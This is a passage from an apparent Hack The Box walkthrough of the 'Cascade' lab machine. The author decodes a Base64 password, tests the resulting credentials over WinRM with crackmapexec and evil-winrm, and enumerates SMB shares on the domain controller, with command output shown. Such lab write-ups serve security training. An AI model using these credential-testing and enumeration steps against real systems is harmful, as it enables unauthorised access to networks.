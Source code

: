 It seems like `Base64` encoded, so I can decode the same using the following command:

```bash
┌──(darshan㉿kali)-[~/Desktop/HackTheBox/Windows-boxes/Cascade]
└─$ echo clk0bjVldmE= | base64 -d
rY4n5eva
```

So now, I have credentials of the user `Ryan Thompson` :

```bash
r.thompson:rY4n5eva
```

I’ll try to connect over `WinRM`:

```bash
┌──(darshan㉿kali)-[~/Desktop/HackTheBox/Windows-boxes/Cascade]
└─$ crackmapexec winrm 10.10.10.182 -u r.thompson -p rY4n5eva 
SMB         10.10.10.182    5985   CASC-DC1         [*] Windows 6.1 Build 7601 (name:CASC-DC1) (domain:cascade.local)
HTTP        10.10.10.182    5985   CASC-DC1         [*] http://10.10.10.182:5985/wsman
WINRM       10.10.10.182    5985   CASC-DC1         [-] cascade.local\r.thompson:rY4n5eva 
```

And it didn’t seem to work. 

I tried to connect using `Evil-WinRM` too, but it didn’t work here as well

```bash
┌──(darshan㉿kali)-[~/Desktop/HackTheBox/Windows-boxes/Cascade]
└─$ evil-winrm -i 10.10.10.182 -u r.thompson -p rY4n5eva      
                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
                                        
Error: An error of type WinRM::WinRMAuthorizationError happened, message is WinRM::WinRMAuthorizationError
                                        
Error: Exiting with code 1

```

Now, I tried to check if these credentials work with `SMB` using `crackmapexec:`

```bash
┌──(darshan㉿kali)-[~/Desktop/HackTheBox/Windows-boxes/Cascade]
└─$ crackmapexec smb -u r.thompson -p rY4n5eva --shares 10.10.10.182
SMB         10.10.10.182    445    CASC-DC1         [*] Windows 6.1 Build 7601 x64 (name:CASC-DC1) (domain:cascade.local) (signing:True) (SMBv1:False)
SMB         10.10.10.182    445    CASC-DC1         [+] cascade.local\r.thompson:rY4n5eva 
SMB         10.10.10.182    445    CASC-DC1         [+] Enumerated shares
SMB         10.10.10.182    445    CASC-DC1         Share           Permissions     Remark
SMB         10.10.10.182    445    CASC-DC1         -----           -----------     ------
SMB         10.10.10.182    445    CASC-DC1         ADMIN$                          Remote Admin
SMB         10.10.10.182    445    CASC-DC1         Audit$                          
SMB         10.10.10.182    445    CASC-DC1         C$                              Default share
SMB         10.10.10.182    445    CASC-DC1         Data            READ            
SMB         10.10.10.182    445    CASC-DC1         IPC$                            Remote IPC
SMB         10.10.10.182    445    CASC-DC1         NETLOGON        READ            Logon server share 
SMB         10.10.10.182    445    CASC-DC1         print$          READ            Printer Drivers
```